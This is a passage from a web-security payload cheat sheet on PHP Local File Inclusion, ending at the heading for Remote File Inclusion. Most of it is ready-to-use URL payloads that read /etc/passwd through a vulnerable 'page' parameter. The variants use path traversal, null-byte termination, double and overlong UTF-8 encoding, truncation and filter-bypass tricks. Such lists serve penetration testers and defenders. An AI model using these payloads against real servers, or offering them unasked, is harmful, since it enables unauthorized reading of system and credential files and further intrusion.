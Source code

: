 ## Basic LFI

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### Null byte

:warning: In versions of PHP below 5.3.4 we can terminate with null byte.

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

### Double encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 encoding

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Path and dot truncation

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

```powershell
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

### Filter bypass tricks

```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

## Basic RFI

Most of the filter bypasses from LFI section can be reused for RFI.
